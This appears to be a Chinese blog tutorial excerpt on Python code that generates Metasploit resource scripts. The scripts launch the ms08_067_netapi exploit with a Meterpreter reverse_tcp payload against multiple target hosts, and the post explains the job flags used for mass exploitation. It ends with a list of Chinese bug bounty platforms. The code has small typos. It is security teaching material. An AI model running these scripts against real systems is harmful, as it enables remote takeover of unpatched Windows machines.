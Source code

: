 <pre><code>def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('setPAYLOAD ' + 'windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
    configFile.write('setg DisablePayloadHandler 1\n')</code></pre>



> 
<h3>2.3、利用：</h3>
当脚本能够在目标主机上执行漏洞利用代码时， 该函数将向Metasploit re脚本中写入用于生成漏洞利用代码的目标主机、本地地址和端口。该函数还将把指定使用哪个漏洞利用代码的指令也写入re脚本的文件中
<hr/>
先去指定使用ms08_ 067 netapi这个漏洞利用代码——这也是Conficker蠕虫攻击时使用的漏洞利用代码， 同时还需要设定攻击的目标——RHOST。还要设定Meterpreter的载荷以及Meterpreter所需的本机地址(LHOST)和端口(L PORT)
<hr/>
脚本发送了一条指令在同一个任务(job)的上下文环境中(-j),不与任务进行即时交互的条件下(-z) 利用对目标计算机上的漏洞。因为这个脚本会黑掉多台目标计算机， 根本不可能同时与这些被黑的计算机交互， 所以脚本中必须使用-j和-z参数。

<pre><code>def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi \n')
    configFile.write('set RHOST ' +str(tgtHost) +'\n')
    configFile.write('set PAYLOAD '+ 'windows/meterpreter/reverse_tcp\n')
    configFile. write ('set LPORT ' +str(lport） + '\n')
    configFile. write ('set LHOST ' +lhost +'\n')
    configFile. write ('exploit -j -z\n')</code></pre>


---


---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)